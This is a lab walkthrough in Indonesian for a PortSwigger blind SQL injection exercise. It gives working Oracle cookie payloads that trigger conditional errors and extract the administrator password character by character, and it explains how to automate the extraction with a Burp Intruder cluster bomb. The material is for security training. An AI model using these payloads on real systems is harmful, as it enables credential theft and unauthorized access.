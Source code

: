 # **Blind SQL Injection dengan Conditional Errors** (Bahasa Indonesia)

Lab ini memiliki kerentanan blind SQL injection pada cookie pelacakan. Aplikasi tidak mengembalikan hasil query, tetapi memberikan pesan kesalahan khusus jika query SQL menghasilkan error. Anda dapat mengeksploitasi celah ini untuk menemukan password pengguna administrator dan login sebagai admin.

---

### **Langkah-Langkah Eksploitasi**

#### **1. Uji Kerentanan**
Masukkan payload berikut ke header cookie:
```plaintext
Cookie: TrackingId=9HCLCYU9VeK78knn'+and'1'='1
```
Jika query berhasil (tidak error), aplikasi akan tetap merespon seperti biasa.

#### **2. Trigger Error untuk Validasi**
Gunakan payload berikut untuk memaksa error:
```sql
Cookie: TrackingId=9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a
```
- **1=1** menghasilkan error **500**.
- **1=2** menghasilkan status normal **200**.

Payload Oracle menggunakan fungsi `TO_CHAR(1/0)` untuk memaksa pembagian dengan nol (error).

---

#### **3. Cari Password Admin dengan Brute Force**
Gunakan fungsi Oracle seperti `SUBSTR` untuk mengambil karakter password:
```sql
Cookie: TrackingId=9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))='a')+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
```

**Penjelasan Query:**
- `SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)`:
  - Mengambil karakter pertama password admin.
- `CASE WHEN ... THEN TO_CHAR(1/0)`:
  - Jika karakter cocok (misalnya 'a'), query menghasilkan error.
  - Jika tidak cocok, query berjalan normal.

---

#### **4. Automasi dengan Intruder dan Cluster Bomb**
1. **Gunakan Burp Suite Intruder**:
   - Kirim permintaan ke Intruder.
   - Pilih lokasi karakter password dengan marker (`§`).
   - Contoh:
     ```
     Cookie: TrackingId=4if4HB4swUlejCm0'+AND+(SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),§1§,1))='§a§')+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
     ```
2. **Konfigurasi Cluster Bomb**:
   - Parameter 1: Posisi karakter (1, 2, 3, ...).
   - Parameter 2: Kemungkinan nilai (a-z, 0-9).

3. **Analisis Respon**:
   - **500 Internal Server Error** menandakan karakter cocok.
   - Lanjutkan hingga seluruh password ditemukan.

---

### **Contoh Hasil**
1. **Karakter Pertama**: Respon menunjukkan karakter pertama adalah `0`.
2. **Lanjutkan** hingga menemukan seluruh password, misalnya: `01k6j5tbrjpd9lpdk4zs`.

---

### **Referensi**
- [Blind SQL Injection](https://portswigger.net/web-security/sql-injection/blind)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

### **Ilustrasi**

#### **Langkah Uji Kerentanan**
- **1=1**: Menghasilkan error **500**.
- **1=2**: Respon normal **200**.

#### **Brute Force Password**
- Hasil:
  - Karakter pertama: `0`.
  - Password lengkap: `01k6j5tbrjpd9lpdk4zs`.
